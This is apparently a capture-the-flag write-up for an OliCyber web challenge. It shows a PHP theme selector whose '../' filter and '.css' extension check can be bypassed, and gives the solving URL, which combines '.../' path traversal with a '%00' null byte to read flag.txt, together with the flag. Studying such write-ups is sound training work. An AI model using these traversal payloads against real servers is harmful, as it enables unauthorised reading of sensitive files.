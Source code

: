 ## Challenge Name: Light or Dark
**Category:** Web

**Challenge Description:**

A simple website that lets you choose between light, dark, and… nah, just these two.
PS: PHP version: 4

Website: http://lightdark.challs.olicyber.it

### Approach

This is the source code of the provided site:
```
<?php

if(!isset($_GET["tema"])) $path = "light.css";  // Default
else {
    $path = $_GET["tema"];
    if (preg_match("/..\//", $path)) {  // Non è bene andare in giro per il file system..
        $path = str_replace('../', './' , $path);
        
        // Facciamo un filtro sull'estensione del tema richiesto, giusto per sicurezza c:
        $error = false;
        $arr = explode(".", $path);
        $estensione = $arr[count($arr)-1];

        if($estensione != "css"){
            $error = true;
            $path = substr($path, 0, -3) . "css";
        }
    }
}

$css = "static/css/" . $path;

?>


<html>
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <title>L/D</title>

    <!-- Bootstrap CSS -->
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css" integrity="sha384-Vkoo8x4CGsO3+Hhxv8T/Q5PaXtkKtu6ug5TOeNV6gBiFeWPGFN9MuhOf23Q9Ifjh" crossorigin="anonymous">

    <style>
        <?php echo file_get_contents($css); ?>
    </style>

    <!-- Bootstrap JavaScript -->
    <script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha384-J6qa4849blE2+poT4WnyKhv5vZF5SrPo0iEjwBvKU7imGFAV0wwj1yYfoRSJoZ+n" crossorigin="anonymous"></script>
    <script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js" integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo" crossorigin="anonymous"></script>
    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js" integrity="sha384-wfSDF2E50Y2D1uUdj0O3uMBJnjuUD4Ih7YwaYd1iqfktj0Uod8GCExl3Og8ifwB6" crossorigin="anonymous"></script>
  </head>

  <body>
    <div class="text-center my-3">
        <h1>Selettore di tema: Light & Dark</h1>
        <p class="pt-3" style="font-size:23;">
            <i>Hai mai sognato di poter cambiare il tema con un semplice click? Finalmente puoi!</i>
        </p>
    </div>

    <div class="row mt-5 w-100">
        <div class="col-2 col-md-4"> </div>
        <div class="col text-center">
            <button class="p-2" onclick="window.location.href='index.php?tema=light.css'">Tema chiaro</button>
        </div>
        <div class="col text-center">
            <button class="p-2" onclick="window.location.href='index.php?tema=dark.css'">Tema scuro</button>
        </div>
        <div class="col-2 col-md-4"> </div>
    </div>

    <div class="error mt-5 text-center">
        <?php if($error) echo "<img src='static/img/zeb.jpg' style='width: 50vw;'/>"; ?>
    </div>

  </body>
</html>
``` 

By looking at the php code i found 2 different steps to bypass to get the website to open ```flag.txt``` :
- Directory Traversal filter
- File extension check

Following there is the solution of this challenge and immediately after there is the explanation of the choices made.
```
http://lightdark.challs.olicyber.it/index.php?tema=.../.../.../.../.../flag.txt%00.css
```

or 

```
view-source:http://lightdark.challs.olicyber.it/index.php?tema=.../.../.../.../.../flag.txt%00.css
```


#### Directory Traversal with .../ and null byte %00

In the PHP script provided, there's a vulnerability in how the $path variable is constructed based on the tema parameter from the URL. The code uses ../ to navigate up one directory level from the static/css/ directory. However, since the code replaces ../ with ./, it effectively nullifies the attempt to traverse directories.

To bypass this check, we can use .../ instead of ../. The PHP script will replace .../ with ./, leaving ../ intact. 


By appending %00 (null byte) at the end of a string in a URL exploits PHP's interpretation of null bytes to truncate the string. PHP treats null bytes as string terminators, effectively ignoring any characters after them.

In this challenge, appending %00.css to the tema parameter ensures that the file extension check in the PHP script fails to recognize the actual file extension. This bypasses the validation and allows an attacker to access files with arbitrary extensions, including sensitive files such as flag.txt.

By combining the use of .../ for directory traversal and %00 for bypassing file extension checks, attackers can effectively exploit the vulnerability and access sensitive files on the server.


**Flag**

```
flag{l1ght_1s_f0r_n00bs_d4rk_1s_f0r_h4ck3rs}    
```
### Reflections
Intresting path traversal challenge.
  

---
<a href="/olicyber-training/main.md" class="btn">Back to home</a>
